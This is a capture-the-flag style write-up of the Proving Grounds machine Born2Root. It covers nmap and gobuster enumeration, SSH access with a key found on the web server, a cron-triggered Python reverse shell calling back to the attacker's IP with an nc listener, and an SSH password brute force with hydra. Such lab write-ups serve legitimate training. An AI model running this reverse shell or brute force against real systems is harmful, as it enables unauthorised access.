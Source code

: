 ```yaml
---
layout: default
title: x002-Born2Root
nav_order: 2
has_children: false
parent: ProvingGrounds
grand_parent: Writeups
---
```


## x002-Born2Root
### Enumeration 

####  NMAP
```sh
nmap -A -T4 192.168.148.49 -p-
```

Which gives us : 
```sh
22/tcp    open     ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open     http    Apache httpd 2.4.10 ((Debian))
| http-robots.txt: 2 disallowed entries 
|_/wordpress-blog /files
|_http-title:  Secretsec Company 
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open     rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34581/tcp6  status
|   100024  1          40205/udp6  status
|   100024  1          41595/udp   status
|_  100024  1          46330/tcp   status
239/tcp   filtered unknown
28289/tcp filtered unknown
46330/tcp open     status  1 (RPC #100024)
59231/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Web 
##### Gobuster 
```sh
gobuster dir -u http://192.168.148.49/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Result : 
```sh
/icons                (Status: 301) [Size: 316] [--> http://192.168.148.49/icons/]
/files                (Status: 301) [Size: 316] [--> http://192.168.148.49/files/]
/manual               (Status: 301) [Size: 317] [--> http://192.168.148.49/manual/]
/server-status        (Status: 403) [Size: 302]    
```


### Access 
Inside the `/icons` folder we found a text file corresponding to a SSH Private Key.
Using the key and the user available on the home page we get access : 
![](attachments/Pasted%20image%2020220219195500.png)

### Privilege Escalation

Checking the crontab we notice the following : 
![](attachments/Pasted%20image%2020220219201218.png)

We could create our own python script to create a reverse shell to the Jimmy account : 
```python
#!/usr/bin/python
import socket,subprocess,os
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.49.148",53))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

On our local machine we are waiting the connection : 
```sh
nc -lnvp 53
```

![](attachments/Pasted%20image%2020220219202048.png)

Search SUID  from user Jimmy : 
```
find / -perm -u=s -type f 2>/dev/null
```

![](attachments/Pasted%20image%2020220219204629.png)

It shows that the `networker` present in our home folder is in the list.

Analyzing it with the `strings` commands indicate the list of sub-command used : 
![](attachments/Pasted%20image%2020220219204903.png)

None of these command allow something based on the https://gtfobins.github.io/#+suid website. 

Our answer is not there.

####  Brute forcing the access 
From our previous enumeration to get the root access, we have detected that the only user on which we coudln't reach the account was Hadi. 

Based on that, we could try to brute force the access using a generated list from bopscrk : 
![](attachments/Pasted%20image%2020220220161012.png)

Then using hydra : 
```bash
hydra -l hadi -P tmp.txt 192.168.148.49 ssh
```

![](attachments/Pasted%20image%2020220220161046.png)

Login with the user and running su command : 

![](attachments/Pasted%20image%2020220220161214.png)

